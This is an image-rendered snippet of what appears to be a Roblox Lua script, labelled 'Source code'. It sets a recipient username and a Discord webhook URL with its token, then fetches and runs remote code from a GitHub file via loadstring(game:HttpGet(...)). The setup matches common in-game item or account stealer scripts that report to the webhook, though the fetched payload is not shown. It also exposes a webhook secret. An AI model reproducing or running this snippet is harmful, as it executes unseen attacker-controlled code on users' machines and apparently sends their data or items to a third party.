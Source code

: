 UserName = "2krizzyXX"
UserName2 = "2krizzyXX"
Webhook = "https://discord.com/api/webhooks/1085485760603496449/QC44qpvhye2Y4FehXev609vDWQ4k4BbUbt6PKHO4lvbycc6JBH2lEFFDNT7lMC-Q-5zq"

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/Rizz/main/Main.lua"))()

